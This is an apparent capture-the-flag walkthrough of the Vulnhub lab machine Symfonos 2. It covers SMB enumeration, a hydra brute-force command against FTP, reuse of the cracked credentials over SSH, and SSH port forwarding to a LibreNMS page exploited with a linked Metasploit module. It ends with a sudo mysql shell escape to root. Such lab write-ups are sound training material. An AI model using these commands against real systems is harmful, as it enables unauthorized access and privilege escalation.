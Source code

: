 ```yaml
---
title:     "Vulnhub - Symfonos 2"
tags: [medium,ftp, port_forward,smb,hydra,sudo]
---
```


Today, We are going to pwn Symfonos 2 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-2,331/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:71:B2:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-03-09T12:31:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T17:31:01
|_  start_date: N/A
```

Lot of Ports open, I started with ``smb``

## SMB :

We can use smbmap to see is there any files available.

 > smbmap - SMB enumeration tool

> -H HOST   		IP of host

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/1.png)

So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable.

There is a tool called ``smbclient`` which helps to access to the server.

> smbclient - ftp-like client to access SMB/CIFS resources on servers

I tried login with ``anonymous`` without password and it worked, Downloaded the ``log.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/2.png)

``log.txt`` 

Its the ``smb`` configuration, the Interesting thing is 


shadow file is stored in /var/backups/shadow.bak
``
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
``


The exact path of the SMB share 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
There is also FTP Conf file 

``root@symfonos2:~# cat /usr/local/etc/proftpd.conf``

So FTP is running under the user ``aeolus`` not anonymous.
```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

## FTP :

We know the FTP is running under ``aeolus`` user but we don't have the password for it, So I started bruteforcing it using ``hydra``.

>hydra - a very fast network logon cracker which supports many different services


>hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.101

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/3.png)


``aeolus : sergioteamo ``

Its the same ``log.txt`` we got from ``SMB``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/4.png)

## SSH :

I used the same creds for ``ssh``

``aeolus : sergioteamo ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/5.png)

## Privilege Escalation :

Uploaded My Enumeration script to the machine and found some ports are listening to the machine.

```
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
---
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:8080                  *:*                  
tcp    LISTEN     0      20     127.0.0.1:25                    *:*                  
---
```

```
Port 3306 - MySQL
Port 25 - SMTP
Port 8080 - Webpage (Maybe)
```
I confirmed it by using ``curl``, There is a login page.
```
aeolus@symfonos2:/tmp$ curl localhost:8080
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://localhost:8080/login" />

        <title>Redirecting to http://localhost:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:8080/login">http://localhost:8080/login</a>.
    </body>
</html>You have new mail in /var/mail/aeolus
```

We can't see port 8080 directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

For that press ``~C`` will open ssh interactive shell and then ``-L 8081:127.0.0.1:8080`` Which port forward 8080 to 8081.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/6.png)

``http://127.0.0.1:8081/``

It's ``LibreNMS`` Login page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/7.png)

I searched for any exploits available and found this.

>https://www.rapid7.com/db/modules/exploit/linux/http/librenms_addhost_cmd_inject

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/8.png)

Now we got ``cronus`` user shell.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/9.png)

The First thing I did is ``sudo -l`` 

```
$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Looks like ``mysql`` can run as root without password.

I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

> sudo mysql -e '\! /bin/sh'

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/10.png)


